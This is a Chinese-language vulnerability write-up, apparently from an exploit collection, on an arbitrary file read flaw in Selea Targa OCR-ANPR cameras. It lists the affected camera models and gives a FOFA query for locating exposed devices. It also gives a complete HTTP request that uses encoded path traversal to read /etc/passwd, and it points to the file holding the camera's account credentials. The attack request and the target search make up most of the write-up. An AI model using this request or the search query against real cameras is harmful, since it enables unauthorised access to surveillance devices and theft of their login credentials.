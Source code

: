 # Selea-OCR-ANPR摄像机-SeleaCamera-任意文件读取漏洞

## 漏洞描述

Selea OCR-ANPR摄像机 SeleaCamera 存在任意文件读取漏洞，攻击者通过构造特定的Url读取服务器的文件

## 漏洞影响

> [!NOTE]
>
> Selea Selea Targa IP OCR-ANPR Camera iZero
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 512
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 504
>
> Selea Selea Targa IP OCR-ANPR Camera Targa Semplice
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 704 TKM
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 805
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 710 INOX
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 750
>
> Selea Selea Targa IP OCR-ANPR Camera Targa 704 ILB

## FOFA

> [!NOTE]
>
> "selea_httpd"

## 漏洞复现

登录页面如下

![](Selea-OCR-ANPR摄像机-SeleaCamera-任意文件读取漏洞.assets/1627363578320012.jpg)

发送如下请求包读取文件

```
GET /CFCARD/images/SeleaCamera/%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
```

![](Selea-OCR-ANPR摄像机-SeleaCamera-任意文件读取漏洞.assets/1627363578627743.jpg)

摄像头账号密码文件为 **mnt/data/auth/users.json**

![](Selea-OCR-ANPR摄像机-SeleaCamera-任意文件读取漏洞.assets/1627363578944451.jpg)

## Goby & POC

![](Selea-OCR-ANPR摄像机-SeleaCamera-任意文件读取漏洞.assets/1627363579334093.jpg)